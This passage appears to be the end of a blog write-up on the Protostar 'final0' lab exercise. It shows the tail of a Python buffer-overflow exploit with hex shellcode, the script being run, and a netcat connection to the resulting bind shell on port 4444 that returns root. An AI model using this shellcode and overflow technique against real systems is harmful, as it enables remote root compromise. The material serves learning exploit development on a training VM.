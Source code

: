 ```
"\xae\x3c\xee\x2b\x89\x73\x6e\x1a\x50\x74\x06\xb2\x8d\xf7\xbe" \
"\xa4\xfe\x95\x57\x5b\x88\xb9\xf7\xf0\x03\xdc\x47\xfd\xde\x9f"

s.send(junk + ret + nop + shellcode)
```

I then ran it.

```
root@protostar:/home/user# ./final0_after.py
```

And lastly, just like in the other example, I connected to the bind shell.  Since I didn't configure a port number in the msfpayload, the default port number is 4444.

```
root@protostar:/home/user# nc localhost 4444
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

There's root access.  Challenge complete. 

Conclusion
----------

It turns out there is always more than one way to skin a cat.  I'm learning the same applies to exploit development.  One could try to make this portable by doing relative jumps with offsets, and ret2libc.  I did not do this, as it wasn't specifically part of the exercise. However, I may come back to it later for fun.
